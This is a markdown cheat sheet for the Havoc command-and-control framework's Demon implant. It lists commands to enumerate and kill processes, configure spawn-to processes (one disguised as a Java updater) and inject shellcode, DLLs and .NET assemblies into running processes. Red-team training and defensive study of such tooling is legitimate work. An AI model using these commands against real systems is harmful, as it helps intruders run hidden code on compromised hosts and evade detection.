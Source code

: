 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - process-injection
  - havoc
  - windows
---
```

# Havoc

## 01 - Help Menu

```
Demon » help proc

 - Command       :  proc
 - Description   :  process enumeration and management
 - Usage         :  proc [command]
 - Example       :  proc list

  Command                        Description
  ---------                      -------------
  list                           displays a list of running processes on the target
  kill                           kills the process from specified PID
  blockdll                       block non microsoft signed dlls
  create                         create a process
  modules                        lists loaded modules/dlls from a remote process
  grep                           grep information from the specified remote process
  memory                         query for memory regions
  find-module                    query for processes with specified loaded module
```

## 02 - Create Process

```
Demon » proc create notepad.exe

Demon » proc create taskmgr.exe
```

## 03 - Terminate Process

```
Demon » proc kill <pid>
```

## 04 - Reconfigure Interactive Implant

### 4.1 - Help Menu

```
Demon » help config

 - Command       :  config
 - Description   :  configure the behaviour of the demon session
 - Usage         :  config [config.flag]
 - Example       :  config inject.spawn64 C:\Windows\System32\rundll32.exe

  Command                        Description
  ---------                      -------------
  implant.verbose                enable/disable implant verbose logging (process creation, memory allocation, thread execution etc.)
  implant.sleep-obf.start-addr   set custom thread start addr at sleep obfuscation
  implant.sleep-obf.technique    set custom thread start addr at sleep obfuscation
  implant.coffee.veh             enable/disable VEH for object file loading
  implant.coffee.threaded        enable/disable threading while executing object files
  memory.alloc                   memory allocation behaviour
  memory.execute                 memory executing behaviour (remote/local thread)
  inject.spoofaddr               inject code with spoofed thread start addr
  inject.spawn64                 default x64 process to spawn for fork & run operations
  inject.spawn32                 default x86 process to spawn for fork & run operations
```

### 4.2 - Configure Spawn Process

Configure a path to spawn new process when executing commands through the demon agent. This will effect other commands like `shellcode` and `dll` to spawn a specific process.

```
Demon » config inject.spawn64 C:\Windows\System32\gpupdate.exe

Demon » config inject.spawn32 C:\Program Files (x86)\Common Files\Java\Java Update\jucheck.exe
```

## 05 - Inject Process

### 5.1 - Shellcode

Inject shellcode through a process identifier.

```
Demon » shellcode inject <x64 | x86> <pid> /path/to/payload.bin
```

Inject shellcode to spawn a new implant.

```
Demon » shellcode spawn <x64 | x86> /path/to/payload.bin
```

### 5.2 - Spawn DLL

Inject DLL file through a process identifier.

```
Demon » dll inject <pid> /path/to/local/payload.dll [arguments]
```

Inject DLL file to spawn a new implant.

```
Demon » dll spawn /path/to/local/payload.dll [arguments]
```

### 5.3 - DotNET CLR Assembly

Execute .NET files through memory in the current process.

```
Demon » dotnet inline-execute /path/to/local/dotnet_file.exe [arguments]
```

## 06 - Object File

Execute object file through memory in the current process.

```
Demon » inline-execute /path/to/objectfile.o [arguments]
```